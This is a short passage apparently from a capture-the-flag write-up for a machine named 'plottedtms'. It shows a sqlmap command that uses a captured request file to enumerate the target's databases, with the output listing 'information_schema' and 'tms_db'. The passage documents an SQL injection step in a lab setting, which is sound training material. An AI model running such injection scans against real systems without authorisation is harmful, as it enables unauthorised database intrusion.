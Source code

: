 ![712bf6c3ad2e2bc332b8013b8cd82931.png](https://raw.githubusercontent.com/mor88888888/writeups/main/plottedtms/_resources/712bf6c3ad2e2bc332b8013b8cd82931.png)

### sqlmap
```bash
$ sqlmap -r Documents/plottedtms/test.req --dbs
```
```
available databases [2]:
[*] information_schema
[*] tms_db
```
